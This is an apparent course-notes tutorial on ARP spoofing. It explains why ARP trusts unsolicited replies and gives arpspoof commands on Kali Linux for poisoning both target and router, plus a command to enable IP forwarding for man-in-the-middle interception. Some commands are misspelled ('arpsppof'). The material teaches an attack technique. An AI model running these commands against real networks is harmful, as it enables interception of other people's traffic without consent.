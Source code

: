 |One-Way ARP Spoofing|<img src="05_arp_spoofing_oneway.png"  width=500/>|

Why does it work?
* ARP is not secury protocol: we saw that we can easily change our MAC address
* clients accept responses even if they did not send a request
* clients trust responses without verification (based on the addresses)

### Executing with `arpspoof`
A Demo of ARP Spoofing
* before implementing ARP spoofing, we'll execute a spoofing attack to intercept data using `arpspoof` on Kali Linux
* documentation
    ```
    arpspoof [-i interface] [-t target]

    arpspoof redirects packets from a target host (or all hosts) on the LAN intended for another host on the LAN by forging ARP replies.
    This is an extremely effective way of sniffing traffic on a switch.

    -i interface    Specify the interface to use. 
    -t target       Specify a particular host to ARP poison (if not specified, all hosts on the LAN). 

    ```
* there are two essential steps
	1. we have to fool the target into thinking we're the router
	```
	arpsppof -i eth0 -t <target_ip> <router_ip>
	```
	2. we have to fool the router into thinking we're the target
	```
	arpsppof -i eth0 -t <router_ip> <target_ip>
	```
* example
	```
	sudo arpspoof -i eth0 -t 192.168.238.148 192.168.238.2
	sudo arpspoof -i eth0 -t 192.168.238.2 192.168.238.148 
	```
* next exanble port forwarding, otherwise the target will not receive rerouted packets
	```
	echo 1 > /proc/sys/net/ipv4/ip_forward
	```
* for wifi arpspoofing, you need a wireless adaptor connected to Kali
